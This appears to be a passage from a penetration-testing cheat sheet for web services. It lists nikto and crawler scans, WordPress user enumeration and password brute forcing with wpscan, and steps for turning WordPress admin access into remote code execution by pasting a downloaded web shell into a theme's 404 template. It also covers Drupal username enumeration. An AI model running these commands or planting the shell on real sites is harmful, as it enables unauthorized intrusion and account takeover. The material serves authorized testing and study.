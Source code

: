------

## HTTP - HTTPS - 80 - 443

### Automatic scanners

```
nikto -h <URL>
python crawleet.py -u <URL> -b -d 3 -e jpg,png,css -f -m -s -x php,txt -y --threads 20
```

### Wordpress

```
# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

#### Wordpress panel RCE

```
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```

### Drupal

```
droopescan scan -u <URL>
```

#### Username enumeration

```
In /user/register just try to create a username and if the name is already taken it will be notified :
*The name admin is already taken*

If you request a new password for an existing username :
*Unable to send e-mail. Contact the site administrator if the problem persists.*

If you request a new password for a non-existent username :
*Sorry, test is not recognized as a user name or an e-mail address.*

Accessing /user/<number> you can see the number of existing users :
	- /user/1 -> Access denied (user exist)
	- /user/2 -> Page not found (user doesn't exist)
```
